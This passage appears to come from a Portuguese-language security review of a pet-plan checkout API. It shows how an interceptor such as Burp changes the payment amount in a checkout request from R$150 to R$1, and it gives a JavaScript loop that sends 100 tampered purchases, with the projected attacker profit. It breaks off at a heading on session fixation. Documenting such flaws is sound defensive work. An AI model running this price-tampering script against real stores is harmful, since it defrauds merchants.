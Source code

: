 **Cenário - Double-Submit com Valores Diferentes:**

1. **Interceptar Request de Checkout:**
   ```javascript
   // Burp Suite ou Proxy para interceptar
   POST /api/checkout/process
   {
     "pets": [{"petId": "pet-1", "planId": "plan-premium"}],
     "payment": {
       "amount": 15000, // R$ 150,00
       "method": "credit_card",
       "cardNumber": "4111111111111111"
     }
   }
   ```

2. **Modificar Valor:**
   ```javascript
   // Alterar amount antes de enviar
   POST /api/checkout/process
   {
     "pets": [{"petId": "pet-1", "planId": "plan-premium"}],
     "payment": {
       "amount": 100, // R$ 1,00 ← ALTERADO!
       "method": "credit_card",
       "cardNumber": "4111111111111111"
     }
   }
   ```

3. **Resultado:**
   - Se validação for fraca, processa R$ 1,00
   - Plano premium ativado por R$ 1,00
   - Prejuízo: R$ 149,00 por transação

4. **Ataque em Massa:**
   ```javascript
   // Comprar 100 planos premium por R$ 1,00 cada
   for (let i = 0; i < 100; i++) {
     await fetch('/api/checkout/process', {
       method: 'POST',
       body: JSON.stringify({
         pets: [{petId: `pet-${i}`, planId: 'premium'}],
         payment: {amount: 100, method: 'credit_card', /*...*/}
       })
     });
   }
   
   // Lucro do atacante: R$ 14.900,00
   ```

---

### 🔐 ATAQUE 6: Session Fixation
